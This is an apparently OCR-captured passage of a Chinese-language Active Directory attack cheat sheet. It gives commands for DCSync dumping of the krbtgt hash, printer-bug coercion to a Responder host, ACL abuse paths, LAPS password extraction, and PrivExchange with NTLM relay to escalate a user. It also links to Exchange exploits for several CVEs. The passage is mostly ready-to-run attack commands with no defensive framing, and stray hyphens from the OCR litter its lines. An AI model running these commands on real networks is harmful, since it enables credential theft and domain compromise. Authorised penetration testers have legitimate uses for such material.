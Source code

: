 lsadump::dcsync /domain:htb.local /user:krbtgt # Administrators, Domain Admins, Enterprise Admins 组下的账户都行-

## 7.打印机 SpoolService 漏洞利用




```
rpcdump.py <domain>/<user>:<password>@<domain\_server> | grep MS-RPRN-
printerbug.py '<domain>/<username>:<password>'@<Printer IP> <RESPONDERIP>-
```


## 8.AD域ACL攻击(aclpwn.py)


GenericAll on User-
GenericAll on Group-
GenericAll / GenericWrite / Write on Computer-
WriteProperty on Group-
Self (Self-Membership) on Group-
WriteProperty (Self-Membership)-
ForceChangePassword-
WriteOwner on Group-
GenericWrite on User-
WriteDACL + WriteOwner-

## 9.获取LAPS管理员密码


```
Get-LAPSPasswords -DomainController <ip\_dc> -Credential <domain>\\<login> | Format-Table -AutoSize-
-
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $\_}}}-

```

## 10.privexchange漏洞




```
python privexchange.py -ah <attacker\_host\_or\_ip> <exchange\_host> -u <user> -d <domain> -p <password>-
-
ntlmrelayx.py -t ldap://<dc\_fqdn>--escalate-user <user>-

```

##### Exchange的利用

*   [**Exchange2domain**](https://github.com/Ridter/Exchange2domain)
*   [**CVE-2018-8581**](https://github.com/WyAtu/CVE-2018-8581/)
*   [**CVE-2019-1040**](https://github.com/Ridter/CVE-2019-1040)
*   [**CVE-2020-0688**](https://github.com/Ridter/CVE-2020-0688)
*   [**NtlmRelayToEWS**](https://github.com/Arno0x/NtlmRelayToEWS)
*   [**ewsManage**](https://github.com/3gstudent/ewsManage)
*   [**CVE-2021-26855**](https://github.com/h4x0r-dz/CVE-2021-26855)
*   [**CVE-2021-28482**](https://gist.github.com/testanull/9ebbd6830f7a501e35e67f2fcaa57bda)
